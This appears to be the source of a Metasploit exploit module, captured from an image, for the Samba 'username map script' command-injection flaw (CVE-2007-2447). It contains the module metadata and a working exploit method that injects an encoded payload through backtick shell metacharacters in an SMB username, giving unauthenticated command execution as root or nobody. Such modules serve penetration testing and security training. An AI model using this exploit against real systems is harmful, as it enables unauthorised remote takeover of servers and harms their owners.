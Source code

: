 ```ruby
			'Description'    => %q{
					This module exploits a command execution vulerability in Samba
				versions 3.0.20 through 3.0.25rc3 when using the non-default
				"username map script" configuration option. By specifying a username
				containing shell meta characters, attackers can execute arbitrary
				commands.

				No authentication is needed to exploit this vulnerability since
				this option is used to map usernames prior to authentication!
			},
			'Author'         => [ 'jduck' ],
			'License'        => MSF_LICENSE,
			'Version'        => '$Revision: 10040 $',
			'References'     =>
				[
					[ 'CVE', '2007-2447' ],
					[ 'OSVDB', '34700' ],
					[ 'BID', '23972' ],
					[ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
					[ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
				],
			'Platform'       => ['unix'],
			'Arch'           => ARCH_CMD,
			'Privileged'     => true, # root or nobody user
			'Payload'        =>
				{
					'Space'    => 1024,
					'DisableNops' => true,
					'Compat'      =>
						{
							'PayloadType' => 'cmd',
							# *_perl and *_ruby work if they are installed
							# mileage may vary from system to system..
						}
				},
			'Targets'        =>
				[
					[ "Automatic", { } ]
				],
			'DefaultTarget'  => 0,
			'DisclosureDate' => 'May 14 2007'))

		register_options(
			[
				Opt::RPORT(139)
			], self.class)
	end


	def exploit

		connect

		# lol?
		username = "/=`nohup " + payload.encoded + "`"
		begin
			simple.client.negotiate(false)
			simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
		rescue ::Timeout::Error, XCEPT::LoginError
			# nothing, it either worked or it didn't ;)
		end
```